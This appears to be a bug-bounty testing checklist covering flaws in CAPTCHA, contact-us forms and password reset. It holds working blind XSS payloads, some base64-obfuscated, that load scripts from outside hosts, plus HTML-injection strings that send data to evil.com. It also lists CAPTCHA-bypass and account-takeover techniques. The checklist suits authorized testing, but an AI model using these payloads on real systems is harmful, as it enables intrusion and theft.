 * [ ] **PATH Overwrite**
* [ ] **\[\[XSS\_HTML Injection|XSS\_HTML Injection]] in username/email for registration**

> _**\[\[CAPTCHA Feature]] Abuse**_

* [ ] [**Captcha Bypass via response manipulation**](https://bugcrowd.com/disclosures/55b40919-2c02-402c-a2cc-7184349926d7/login-capctha-bypass)
* [ ] **Do not send the parameter** related to the captcha.
  * Change from POST to GET or other HTTP Verbs
  * Change to JSON or from JSON
* [ ] Send the **captcha parameter empty**.
* [ ] Check if the value of the captcha is **in the source code** of the page.
* [ ] Check if the value is **inside a cookie.**
* [ ] Try to use an **old captcha value**
* [ ] Check if you can use the same captcha **value** several times with **the same or different session-ID.**
* [ ] If the captcha consists on a **mathematical operation** try to **automate** the **calculation.**
* [ ] Enter CAPTCHA as a Boolean value (`True`)

> _**\[\[Contact us Feature]]**_

* [ ] [**There is no rate limit for contact-us endpoints**](https://hackerone.com/reports/856305)
* [ ] [Blind XSS on image upload support chat](https://hackerone.com/reports/1010466)
*   [ ] Blind XSS

    ```html
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
    '"><script src=//xss.report/s/M8SZT8></script>
    "><script src="https://js.rip/l5j9hbki0b"></script>
    "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL2w1ajloYmtpMGIiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
    ```
*   [ ] [**HTML Injection**](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection)

    ```html
    https://evil.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaa%20%22<b>hello</b><h1>hacker</h1><a Href='evil.com'>xxxx</a>abc.comxxxxxxxxxxxxxxxxxxxxeeeeeeeeeeaaaaaaaaaaaaacxcccc
    "/><img src="x"><a href="https://evil.com">login</a>
    <button name=xss type=submit formaction='https://google.com'>I get consumed!
    <form action='http://evil.com/log_steal'>
    <form action=http://google.com><input type="submit">Click Me</input><select name=xss><option																<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
    ```

> _**\[\[Reset Password]] Abuse**_

* [ ] Failure to Invalidate Session -> On Password Reset and/or Change
* [ ] Password Reset Token Sent Over HTTP
* [ ] **0-CLICK** ATO by **manipulating email parameter (BAC)**
* [ ] **Response Manipulation** -> OTP Bypass -> **0-CLICK** ATO
* [ ] Request password reset -> Enter New Password -> Change Reference -> **IDOR** -> **0-CLICK** ATO
* [ ] \[\[Race Condition]] -> **0-CLICK** ATO
* [ ] [**Password reset token leaked via Referer header**](https://hackerone.com/reports/1320242)
* [ ] [**HTML\_Injection\_on\_password\_reset\_page**](https://github.com/KathanP19/HowToHunt/blob/master/HTML\_Injection/HTML\_Injection\_on\_password\_reset\_page.md)
* [ ] Token is Not Invalidated After Use
* [ ] Token is Not Invalidated After Email Change/Password Change
  * [Chaturbate | Report #411337 - Forget password link not expiring after email change. | HackerOne](https://hackerone.com/reports/411337)
* [ ] CRLF in URL `/resetPassword?0a%0dHost:atracker.tld` -> Host Header Injection
* [ ] [**IDN Homograph Attack leads to ATO**](https://infosecwriteups.com/how-i-was-able-to-change-victims-password-using-idn-homograph-attack-587111843aff)